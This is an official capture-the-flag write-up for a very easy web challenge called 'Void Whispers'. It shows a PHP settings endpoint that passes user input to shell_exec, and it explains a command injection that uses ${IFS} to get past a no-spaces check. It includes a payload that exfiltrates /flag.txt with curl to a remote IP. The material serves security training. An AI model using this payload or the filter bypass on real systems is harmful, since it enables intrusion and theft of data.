



    <font size="6">Void Whispers</font>
  20<sup>th</sup> Oct 2024 / Document No. D24.xxx.xxx

  Prepared By: Xclow3n

  Challenge Author: Xclow3n

  Difficulty: <font color=green>Very Easy</font>

  Classification: Official


# [Synopsis](#synopsis)

Void Whispers is a very easy web challenge designed to help players understand and exploit Command Injection.

# Skills Required
- Basic knowledge of PHP

# Skills Learned
- Command Injection

# [Solution](#Solution)
Visiting the home page displays the following interface:


We can update and save the settings:


We are provided with the source code of this application, so let's examine how this functionality works.

In `IndexController.php`:

```php
class IndexController
{
  private $configFile = 'config.json'; 
  private $config;

  public function __construct() {
    if (file_exists($this->configFile)) {
      $this->config = json_decode(file_get_contents($this->configFile), true);
    } else {
      $this->config = array(
        'from' => 'Ghostly Support', 
        'email' => 'support@void-whispers.htb',
        'sendMailPath' => '/usr/sbin/sendmail',
        'mailProgram' => 'sendmail',
      );
    }
  }

  ... SNIP ...
  public function updateSetting($router)
  {
    $from = $_POST['from'];
    $mailProgram = $_POST['mailProgram'];
    $sendMailPath = $_POST['sendMailPath'];
    $email = $_POST['email'];

    if (empty($from) || empty($mailProgram) || empty($sendMailPath) || empty($email)) {
      return $router->jsonify(['message' => 'All fields required!', 'status' => 'danger'], 400);
    }

    if (preg_match('/\s/', $sendMailPath)) {
      return $router->jsonify(['message' => 'Sendmail path should not contain spaces!', 'status' => 'danger'], 400);
    }

    $whichOutput = shell_exec("which $sendMailPath");
    if (empty($whichOutput)) {
      return $router->jsonify(['message' => 'Binary does not exist!', 'status' => 'danger'], 400);
    }

    $this->config['from'] = $from;
    $this->config['mailProgram'] = $mailProgram;
    $this->config['sendMailPath'] = $sendMailPath;
    $this->config['email'] = $email;

    file_put_contents($this->configFile, json_encode($this->config));

    return $router->jsonify(['message' => 'Config updated successfully!', 'status' => 'success'], 200);
  }
}
```

This PHP function, `updateSetting`, is responsible for updating email-related configuration settings. It takes user input from a form (`from`, `mailProgram`, `sendMailPath`, and `email`) and performs the following checks:

1. **Validation**: Ensures all fields are provided and that the `sendMailPath` does not contain spaces.
2. **Check for Binary Existence**: Uses `shell_exec` to check if the provided `sendMailPath` exists on the system.
3. **Update Configuration**: If validation passes, it updates the configuration file (`$this->configFile`) with the new settings and saves them in JSON format.
4. **Response**: Returns success or error messages using the `jsonify` method based on the outcome of the process.

### Command Injection Vulnerability:
The function is vulnerable to **command injection** because the input for `sendMailPath` is passed directly to the shell without being sanitized. This allows an attacker to inject arbitrary commands into the system. However, the check on `sendMailPath` disallows spaces, so we cannot use normal spaces in our payload.

### `${IFS}` Explanation:
`${IFS}` is a special environment variable in Unix-like systems that stands for "Internal Field Separator." It is used by the shell to separate words in a command. The default value of `${IFS}` is a space, newline, and tab. We can exploit this by using `${IFS}` in place of spaces to bypass the space restriction in the command injection.

### Crafting the Payload:
We can craft a payload using `${IFS}` to simulate spaces and inject a malicious command:

```
/usr/sbin/sendmail;curl${IFS}https://[IP]?x=$(cat${IFS}/flag.txt)
```

This payload works as follows:
- `/usr/sbin/sendmail` executes as normal.
- `curl${IFS}https://[IP]?x=$(cat${IFS}/flag.txt)` uses `${IFS}` in place of spaces to run a `curl` command that exfiltrates the contents of `flag.txt` by sending it to a remote server.

When saved, this payload provides us with the flag:


This completes the challenge! :)

